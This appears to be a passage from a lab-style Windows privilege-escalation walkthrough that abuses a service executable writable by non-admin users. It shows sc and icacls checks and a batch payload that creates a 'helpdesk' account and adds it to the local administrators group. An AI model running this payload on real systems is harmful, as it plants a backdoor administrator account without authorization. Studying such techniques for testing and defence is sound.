 ![File Permission Service Properties](.assets/file_permissions_service.png)

We have write access to the service executable.

`"C:\Program Files\File Permissions Service\filepermservice.exe"`

**Steps:**

1. **Find Service Path:**

   ```bash
   sc qc filepermsvc
   ```

   **BINARY_PATH_NAME:** `"C:\Program Files\File Permissions Service\filepermservice.exe"`

2. **Check Folder Permissions:**

   - Run this command to check who can access and modify the file:

     ```bash
     icacls "C:\Program Files\File Permissions Service\filepermservice.exe"
     ```

   - Look for the following permission flags in the output:

     - **(F)** – Full control: Can read, write, delete, and change permissions.
     - **(M)** – Modify: Can read, write, and delete files.
     - **(RX)** – Read & Execute: Can read and run files.
     - **(R)** – Read: Can only view the files.
     - **(W)** – Write: Can add files but with limited rights.

   - Focus on whether **BUILTIN\Users**, **Everyone** or other non-admin groups have **(F)** or **(M)** permissions, meaning you can write or modify files. If only **(RX)** or **(R)** is shown, you don’t have the required access.

3. **Create a Batch File:**

   - Write a simple batch file called `filepermservice.bat` with the following content:

     ```bash
     net user helpdesk L3tm3!n /add && net localgroup administrators helpdesk /add
     ```
